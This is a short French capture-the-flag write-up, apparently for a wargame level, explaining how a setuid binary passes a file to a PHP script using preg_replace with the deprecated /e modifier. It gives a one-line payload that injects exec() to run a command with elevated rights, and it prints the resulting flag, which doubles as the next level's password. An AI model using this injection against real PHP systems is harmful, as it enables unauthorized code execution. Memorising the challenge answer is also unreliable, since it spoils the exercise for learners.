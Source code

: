 # Pré requis

aucun

## GET Flag

L'executable level06 va appeler le fichier level06.php avec les droits de flag06.
Le fichier level06.php fait appel a preg_replace avec le flag deprecie "/e".
Ce flag permet d'executer le code present dans le deuxieme parametre.
On peut donc injecter du code php en matchant avec la regex "\[x (.*)\]".
Le code injecte sera un appel a exec permettant de lancer une commande shell.


echo "[x {${exec(getflag)}}]" > breach
./level06 breach

# Flag

On obtient le flag:
`wiok45aaoguiboiki2tuin6ub`

On peut se connecter sur le `level07`

```
level07
wiok45aaoguiboiki2tuin6ub
```
